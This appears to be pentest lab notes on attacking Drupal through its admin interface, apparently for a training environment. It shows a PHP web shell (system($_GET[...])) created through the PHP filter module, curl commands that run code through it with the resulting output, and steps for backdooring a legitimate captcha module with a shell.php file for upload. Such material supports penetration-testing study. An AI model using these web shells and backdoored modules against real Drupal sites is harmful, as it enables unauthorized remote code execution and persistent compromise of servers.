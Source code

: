 # Attacking Drupal

## Leveraging the PHP Filter Module

### Before version 8

In older versions of Drupal (before version 8), it was possible to log in as an admin and enable the PHP filter module.

http://drupal-qa.inlanefreight.local/#overlay=admin/modules

Tick the check box PHP filter
Save Configuration
Content
Add content and create a Basic page

<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>

Set Text format drop-down to PHP code

Redirected to a new page : http://drupal-qa.inlanefreight.local/node/3

curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"
uid=33(www-data) gid=33(www-data) groups=33(www-data)

### Version 8 onwards

PHP Filter module is not installed by default

Install module :

wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
Administration > Reports > Available updates
Browse
Install

## Uploading a Backdoored Module

Adding a shell to an existing module

wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz

vi shell.php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>

vi .htaccess
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
